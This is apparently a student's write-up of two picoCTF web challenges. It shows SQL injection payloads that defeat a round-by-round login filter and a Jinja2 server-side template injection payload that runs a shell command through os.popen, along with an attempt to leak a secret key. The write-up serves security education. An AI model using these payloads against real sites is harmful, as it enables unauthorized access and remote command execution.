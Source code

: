 # 1. Web Gauntlet 

Can you beat the filters?
Log in as admin http://shape-facility.picoctf.net:58384/ http://shape-facility.picoctf.net:58384/filter.php

## Solution:

Open the given link ```http://shape-facility.picoctf.net:52907/``` 
We have to login as admin but we don’t have a password 

### Test login:
**Username-** admin
**Password-** hola

The SQL statement printed is 
```SELECT * FROM users WHERE username='admin ' AND password=‘hola'``` 

Using the website given ```http://shape-facility.picoctf.net:52827/filter.php``` it shows ```Round1: or```

### Round 1/5:

**Username-** admin' --
**Password-** ummmm 

```-- ``` comments out the password check so the query is now 
```SELECT * FROM users WHERE username='admin' --' AND password=‘ummmm'```

On reloading ```http://shape-facility.picoctf.net:52827/filter.php```, it shows  ```Round2: or and like = --```

After this ```-- ``` stopped working so Im assuming the things that are on ```http://shape-facility.picoctf.net:52827/filter.php``` are what can no longer be used. 

### Round 2/5:

**Username-** admin’/*
**Password-** idk

```/* ``` is a multi-line comment which comments out the password check so the query is now 
```SELECT * FROM users WHERE username='admin'/*' AND password=‘idk'```

On reloading ```http://shape-facility.picoctf.net:52827/filter.php```, it shows ```Round3: or and = like > < --```

### Round 3/5:

Because the last round didn’t mention that the same expression couldn’t be used so I used the same username 

**Username-** admin’/*
**Password-** k

The query is now,
```SELECT * FROM users WHERE username='admin'/*' AND password='k'```

On reloading ```http://shape-facility.picoctf.net:52827/filter.php```, it shows ```Round4: or and = like > < -- admin```

### Round 4/5:

**Username-** admi'||'n'/*
**Password-** yes

Use ```||``` to concatenate ```admi``` and ```n``` so the query is now,
```SELECT * FROM users WHERE username='admi'||'n'/*' AND password=‘yes'```

On reloading ```http://shape-facility.picoctf.net:52827/filter.php```, it shows ```Round5: or and = like > < -- union admin```


### Round 5/5:

Because the last round didn’t mention that the same expression couldn’t be used so I used the same username

**Username-** admi'||'n'/*
**Password-** done

The query is now, 
```SELECT * FROM users WHERE username='admi'||'n'/*' AND password=‘done'```

On reloading ```http://shape-facility.picoctf.net:52827/filter.php```, we finally get the flag. 

## Flag:
```
picoCTF{y0u_m4d3_1t_79a0ddc6}
```

## Concepts learnt:
- ```--``` is used in SQl for single line comments
- ```/*``` is used for multi-line comments
- ```||``` is used to concatenate two strings 

## Resources:
- [https://www.w3schools.com/sql/sql_comments.asp](url)
- [https://www.geeksforgeeks.org/sql/sql-concatenation-operator/](url)


# 2. SSTI1 

I made a cool website where you can announce whatever you want! Try it out!
I heard templating is a cool and modular way to build web apps! Check out my website here!

**website:*** [http://rescued-float.picoctf.net:53419/](url)

## Solution 

The hint mentions "Server Side Template Injection". 

- In this case, we use the template engine ```Jinja2```

In order to find which template engine is being used I tried a hit and trial method by inputting ```{{7*7}}```. This results in a ```49``` which means the syntax works. 
This means that the server evaluates ```{{   }}``` so it could possibly be ```Jinja2``` or ```Twig```.

I tried ```Jinja2``` first and it worked. 

- I used ```{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat flag')['read']()}}``` from the below mentioned link to get the flag

## Flag:
```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bdc95c1a}
```

## Concepts learnt:
- A **server side template injection** is a vulnerability that occurs when a server renders user input as a template of some sort. It basically replaces certain placeholders according to a certain template.
- **Template engines** take a template and fill in placeholders with actual data to create the final document

## Notes:

- I tried leaking the secret key using ```{{config[“SECRET_KEY"]}}``` but it just returned ```None```
- ```{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('flag')['read']()}}``` work but doesnt print the flag which is how i knew i had to use ```cat flag``` for the id

## Resources:
- [https://medium.com/@bootstrapsecurity/server-side-template-injection-ssti-advanced-exploitation-techniques-2d8ccdf6270f](url)
- [https://onsecurity.io/article/server-side-template-injection-with-jinja2/](url)
  






